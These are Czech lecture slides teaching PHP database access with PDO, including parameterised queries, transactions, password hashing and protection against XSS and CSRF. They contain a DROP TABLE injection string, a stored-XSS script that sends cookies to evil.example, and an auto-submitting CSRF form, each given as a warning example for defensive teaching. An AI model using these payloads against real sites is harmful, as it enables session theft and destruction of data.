



# Integrace SŘBD
- Pro ukládání dat se používá nejčastěji relační SŘBD – databázový server. 
	- Formalizovaná struktura na základě analýzy domény.
	- Ukládání dat přímo do souborů na serveru vyžaduje povolit webovému serveru právo zápisu na některou část lokálního souborového systému – bezpečnostní rizika.
	- Databázový server umožňuje efektivnější práci s velkým množstvím dat – efektivita, zajištění konzistence.
	- Může běžet na jiném počítači než webový server a může být dostupný prostřednictvím sítě – škálovatelnost.

---

# Architektura serveru s PHP
<!-- .slide: class="normal centered fullspace" data-transition="slide-in fade-out" -->

 <!-- .element: style="width:1200px;margin-top:30px;" -->

---

# Integrace databázového serveru (SŘBD)
<!-- .slide: class="normal centered fullspace" data-transition="fade-in slide-out" -->

 <!-- .element: style="width:1200px;margin-top:30px;" -->

---

# Návrh schématu databáze
- Doménový model – E-R diagram nebo diagram tříd
	- Identifikace entit – vlastnosti, jejich typ
	- Identifikace vztahů – kardinalita 
- Transformace na schéma databáze – viz IDS, také v další přednášce
	- Entity na tabulky, vlastnosti na sloupce
	- Vztahy: vazba primární – cizí klíč, příp. vazební tabulky
- Primární klíč, indexy

---

# Primární klíč
- U všech tabulek, které figurují ve vztazích nebo je nutné řádky jednoznačně identifikovat
- Přirozený primární klíč – často problematický
	- Právní problémy – ochrana osobních údajů
	- Praktické problémy – vše se může změnit
- Umělý primární klíč
	- Je nutné zajistit unikátnost v rámci tabulky
	- Generované primární klíče – různá podpora v db systémech
	- MySQL: volba `AUTO_INCREMENT` u primárního klíče

---

# Indexy
- Pomocná datová struktura usnadňující vyhledávání podle hodnoty
	- Např. B+ strom
- Může být vytvořen nad jedním nebo více sloupci
	- `ADD KEY` | `INDEX`
	- Automaticky nad primárními klíči
	- V některých systémech i nad výrazem (např. `upper(name)`)
- Index na druhou stranu má prostorové nároky a jeho údržba má časové nároky (přidávání, mazání řádků)

---

# Než začneme: Příprava DB serveru
- Vytvoření databáze, přidělení práv uživateli

```sql
CREATE DATABASE demo;
CREATE USER 'demo2'@'localhost' IDENTIFIED BY 'password';
GRANT ALL PRIVILEGES ON `demo`.* TO 'demo2'@'localhost';
```

- Vytvoření tabulek


```sql
CREATE TABLE `users`(
	`id` INT NOT NULL AUTO_INCREMENT,
	`name` VARCHAR(255) NOT NULL,
	`surname` VARCHAR(255) NOT NULL,
	 PRIMARY KEY (`id`))
ENGINE = InnoDB;
```

---

# Spolupráce s databázovým serverem
- Aplikace v PHP běží na serveru dávkově
- Celou komunikaci s databází je třeba řešit v rámci zpracování jednoho HTTP požadavku.
- Demo: [GitHub](https://github.com/DIFS-Teaching/basic-demos/tree/master/php-forms-pdo)

---

# Struktura demo aplikace
<!-- .slide: class="normal centered" -->

 <!-- .element: style="height:680px;margin:0 auto;display:block" -->

Prezentace nikdy nepracuje s SQL ani PDO, datová vrstva neobsahuje pravidla aplikace. <!-- .element: class="small" -->

---

# Práce s databází
1. Připojení k databázovému serveru
	- Autentizace aplikace (ne uživatele!)
2. Připojení konkrétní databáze
	- DB server ověří přístupová práva
3. Zaslání SQL dotazu
	- Získáme výsledek dotazu
4. Převzetí a zpracování výsledků
	- (případně zpět k bodu 3)
5. Ukončení spojení (často na pozadí)

---

# Relační databáze v PHP
- Historicky vlastní API pro každý databázový systém
	- Typicky sada funkcí v PHP
	- Např. `mysql_xxxx()` – odstraněno v PHP 7.0
	- Dodnes např. `mysqli` (pouze MySQL/MariaDB), `pgsql`
- Snaha o sjednocení
	- Abstraktní vrstva s ovladači pro různé systémy
	- PHP Data Objects (PDO) – standard v PHP od verze 5.1
	- Další abstrakce třetích stran, např. Doctrine DBAL, Nette Database, Laravel Query Builder (viz frameworky)

---

# PHP Data Objects (PDO)
- Jednoduchá abstrakce nad databázovým systémem
- Poskytuje **standardní rozhraní** pro základní operace
	- Objektově orientované rozhraní
- Toto rozhraní implementují **ovladače** (_drivers_) pro jednotlivé konkrétní systémy
	- Součástí PHP: MySQL/MariaDB, PostgreSQL, SQLite, Firebird, ODBC, MS SQL/Sybase (dblib)
	- Samostatně instalované (PECL, výrobce): Oracle (od PHP 8.4), IBM DB2, Informix, MS SQL Server (`pdo_sqlsrv`)
	- Viz [dokumentace k PDO](https://www.php.net/manual/en/book.pdo.php)

---

# Připojení k databázi
- Vytvoření instance třídy PDO
- Specifikace spojení pomocí DSN (data source name)
	- Včetně kódování spojení – `utf8mb4` (`utf8` je v MySQL jen 3bajtový `utf8mb3`)

```php
<?php
$dsn = 'mysql:host=localhost;dbname=testdb;charset=utf8mb4';
$username = 'username';
$password = 'password';
$options = [
    PDO::ATTR_ERRMODE => PDO::ERRMODE_EXCEPTION,      // výchozí od PHP 8.0
    PDO::ATTR_DEFAULT_FETCH_MODE => PDO::FETCH_ASSOC, // výchozí je FETCH_BOTH
];

$pdo = new PDO($dsn, $username, $password, $options);
```

---

# Zaslání SQL dotazu
- Dotaz bez parametrů: `PDO::query()`

```php
$stmt = $pdo->query("SELECT name, surname FROM users");
```

- Dotaz s parametry: `PDO::prepare()` a `PDOStatement::execute()`
	- Připravený dotaz lze vykonat i opakovaně s jinými parametry

```php
// Připravení dotazu
$stmt = $pdo->prepare("SELECT name, surname 
	FROM users WHERE id = ?");
// Vykonání dotazu
$stmt->execute([$userId]);
```

- Získáme objekt _statement_ (`PDOStatement`)
- **Parametry:** prevence SQL injection, viz dále

---

# Zpracování výsledků – fetch()
- Statement zpřístupní celý výsledek dotazu.
- Sloupce výsledné tabulky odpovídají projekci v příkazu SELECT.

```php
while ($row = $stmt->fetch())
{
    echo $row['name'] . "\n";

    echo $row['surname'] . "\n";
}
```

- Režim lze zvolit i pro jednotlivé volání: `fetch(PDO::FETCH_NUM)` – indexy sloupců, `PDO::FETCH_ASSOC` – jména sloupců, `PDO::FETCH_BOTH` – obojí

---

# Zpracování výsledků – fetchAll()
- `fetchAll()` přečte všechny zbývající řádky výsledku a uloží do pole.
- Opatrně: počet řádků je nutno omezit, např. pomocí `WHERE` (na rovnost), `LIMIT` apod.

```php
$stmt = $pdo->query("SELECT name, surname
	FROM users LIMIT 100");
$data = $stmt->fetchAll();
foreach ($data as $row) {
	echo $row["name"] . "\n";
	echo $row["surname"] . "\n";
}
```

---

# Parametrizované dotazy
- Naivní (starý) přístup – <span style="color:red">NEBEZPEČNÉ</span>

```php
$sql = "SELECT * FROM users WHERE name='$name'";
```

- Pokud (např. uživatelský vstup) 
```php
$name = "franta';DROP TABLE users; -- ";
```

- Dostaneme

```sql
SELECT * FROM users
	WHERE name = 'franta'; DROP TABLE users; -- '
```

---

# Parametrizované dotazy v PDO

```php
$stmt = $pdo->prepare('SELECT * FROM users
				WHERE email = ? AND status = ?');
$stmt->execute([$email, $status]);
$user = $stmt->fetch();
```

nebo

```php
$stmt = $pdo->prepare('SELECT * FROM users
				WHERE email = :email AND status = :status');
$stmt->execute(['email' => $email, 'status' => $status]);
$user = $stmt->fetch();
```

---

# Omezení parametrů
- Parametr může nahradit pouze **hodnotu** v dotazu
- Nelze jej použít pro názvy tabulek a sloupců, směr řazení (`ASC`/`DESC`), klíčová slova SQL
- Pokud tyto části závisí na vstupu: **whitelist** povolených hodnot

```php
$allowed = ['name', 'surname'];
$sort = $_GET['sort'] ?? 'name';
if (!in_array($sort, $allowed, true)) {
	$sort = 'name';
}
$stmt = $pdo->query("SELECT * FROM users ORDER BY $sort");
```

---

# Vkládání a změna dat
- `INSERT`

```php
$stmt = $pdo->prepare("
	INSERT INTO users (name, surname) VALUES (?, ?)");
$stmt->execute([$name, $surname]);
```

- Generované ID: `$pdo->lastInsertId()`
 
- `UPDATE`

```php
$stmt = $pdo->prepare("
	UPDATE users SET name = ?, surname = ?
	WHERE id = ?");
$stmt->execute([$name, $surname, $userId]);
```

---

# Ošetření chyb
- Chyba databáze vyvolá výjimku `PDOException` (výchozí od PHP 8.0)
	- `$e->getCode()` – kód SQLSTATE, např. `23000` porušení integrity
- Podrobnosti chyby **nevypisovat uživateli** – prozrazují strukturu databáze

```php
try {
	$stmt = $pdo->prepare("INSERT INTO users (name, surname)
		VALUES (?, ?)");
	$stmt->execute([$name, $surname]);
} catch (PDOException $e) {
	error_log($e->getMessage());    // podrobnosti do logu
	echo "Uložení se nezdařilo.";   // uživateli obecná zpráva
}
```

---

# Transakce
- Skupina operací, které se provedou buď všechny, nebo žádná
- `beginTransaction()`, `commit()`, `rollBack()`

```php
try {
	$pdo->beginTransaction();
	$stmt = $pdo->prepare("UPDATE accounts
		SET balance = balance + ? WHERE id = ?");
	$stmt->execute([-$amount, $fromId]);
	$stmt->execute([$amount, $toId]);
	$pdo->commit();
} catch (Exception $e) {
	$pdo->rollBack();   // zrušení všech změn od beginTransaction()
	throw $e;
}
```

---

# Uživatelské účty v databázi
- Tabulka uživatelů se sloupci login a hash hesla
- Hesla se nesmí ukládat v otevřené podobě
	- **Pomalá** hashovací funkce se solí (bcrypt, Argon2id), ne MD5 či SHA
- `password_hash($password, PASSWORD_DEFAULT)`
	- Výsledek obsahuje algoritmus, parametry i sůl; nyní bcrypt
	- Sloupec pro hash: `VARCHAR(255)` – délka se může změnit
- `password_verify($password, $hash)` – ověření hesla
- `password_needs_rehash()` – přepočet po změně algoritmu nebo parametrů
- [Demo aplikace](https://github.com/DIFS-Teaching/basic-demos/tree/master/php-login-db)

---

# Cross-Site Scripting (XSS)
- Data z databáze (původně od uživatele) vypisujeme do HTML stránky
- Pokud obsahují HTML/JavaScript, prohlížeč je provede v kontextu naší aplikace
	- Krádež session, akce jménem uživatele, podvržený obsah stránky
- **Uložené (stored) XSS** – útočný kód je uložen v databázi a zasáhne každého, kdo si stránku zobrazí

```php
// jméno uložené v DB:
// <script>fetch('https://evil.example/?c=' + document.cookie)</script>
echo "<td>" . $row['name'] . "</td>";   // NEBEZPEČNÉ
```

---

# Ochrana proti XSS
- **Escapovat při výstupu** podle kontextu
	- HTML: `htmlspecialchars()` – převede `< > & " '` na entity
	- Do databáze ukládáme data v původní podobě
- Šablonovací systémy (Blade, Twig, Latte) escapují automaticky
- Doplňková ochrana: cookie `HttpOnly`, hlavička `Content-Security-Policy`

```php
function h($s) {
	return htmlspecialchars($s, ENT_QUOTES, 'UTF-8');
}

echo "<td>" . h($row['name']) . "</td>";
?>
<input name="name" value="<?= h($person['name']) ?>">
```

---

# Cross-Site Request Forgery (CSRF)
- Uživatel je přihlášen v naší aplikaci (session cookie)
- Navštíví cizí stránku, která odešle požadavek na naši aplikaci
- Prohlížeč k požadavku přiloží cookie → provede se **s právy uživatele**
- Např. stránka útočníka obsahuje:

```html


<form action="https://is.example/person_edit.php?id=1" method="post">
	<input type="hidden" name="name" value="Hacked">
</form>
<script>document.forms[0].submit();</script>
```

---

# Ochrana proti CSRF
- Operace měnící data **nikdy přes GET**
- **CSRF token** – náhodná hodnota v session a ve skrytém poli formuláře; cizí stránka ji nezná
- Doplňková ochrana: cookie `SameSite=Lax` nebo `Strict`
- Frameworky řeší automaticky (Laravel `@csrf`, Symfony, Nette)

```php
// vytvoření tokenu (jednou pro session)
$_SESSION['csrf_token'] ??= bin2hex(random_bytes(32));
// ve formuláři: <input type="hidden" name="csrf_token" value="...">
// ověření při zpracování formuláře
if (!isset($_POST['csrf_token'])
		|| !hash_equals($_SESSION['csrf_token'], $_POST['csrf_token'])) {
	http_response_code(403); exit();
}
```

---

# Co dále?
- Složitější schéma databáze
	- Vztahy, kolekce
	- Integrita a konzistence databáze
- Abstrakce databázové vrstvy ve frameworcích
	- Query builder, objektově relační mapování (ORM)
